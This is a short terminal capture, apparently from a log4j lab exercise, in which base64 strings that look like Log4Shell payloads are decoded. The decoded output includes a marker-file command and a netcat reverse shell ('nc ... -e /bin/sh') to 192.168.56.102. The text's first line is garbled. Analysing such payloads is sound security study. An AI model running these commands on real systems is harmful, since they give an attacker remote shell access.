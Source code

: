 ```
Jpbi9zaCAtdnZ2Cg==}	F	T

ubuntu@ip-10-10-27-17:~/Desktop/Exercise-Files/log4j$ echo 'dG91Y2ggL3RtcC9wd25lZAo=}' | base64 --decode
touch /tmp/pwned
base64: invalid input

ubuntu@ip-10-10-27-17:~/Desktop/Exercise-Files/log4j$ echo 'd2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==' | base64 --decode
which nc > /tmp/pwned

ubuntu@ip-10-10-27-17:~/Desktop/Exercise-Files/log4j$ echo 'bmMgMTkyLjE2OC41Ni4xMDIgODAgLWUgL2Jpbi9zaCAtdnZ2Cg==' | base64 --decode
nc 192.168.56.102 80 -e /bin/sh -vvv

```



